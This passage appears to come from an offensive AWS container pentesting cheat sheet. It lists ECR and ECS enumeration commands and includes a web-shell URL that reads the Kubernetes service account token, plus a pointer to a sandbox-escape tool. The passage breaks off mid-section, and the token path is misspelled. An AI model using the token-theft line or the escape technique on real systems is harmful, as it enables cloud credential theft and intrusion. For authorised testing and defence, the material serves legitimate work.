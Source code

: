 ### Getting the secret information from EKS

```
https://website.com?rce.php?cmd=ls /var/run/secrets/kubernets.io/serviceaccount/token
```

* It's also possible to do sandbox escaping (Tool: ``deepce``)

## Enumeration

### ECR

#### Listing all repositories in container registry

```
aws ecr describe-repositories
```

#### Listing information about repository policy

```
aws ecr get-repository-policy --repository-name name
```

#### Listing all images in a specific repository

```
aws ecr list-images --repository-name name
```

#### Listing information about an image

```
aws ecr describe-images --repository-name name --images-ids imageTag=name
```

### ECS

#### Listing all ECS clusters

```
aws ecs list-clusters
```

#### Listing information about an specific cluster

```
aws ecs describe-clusters --cluster name
```

#### Listing all services in specified cluster

```
aws ecs list-services --cluster name
```

#### Listing information about an specific service
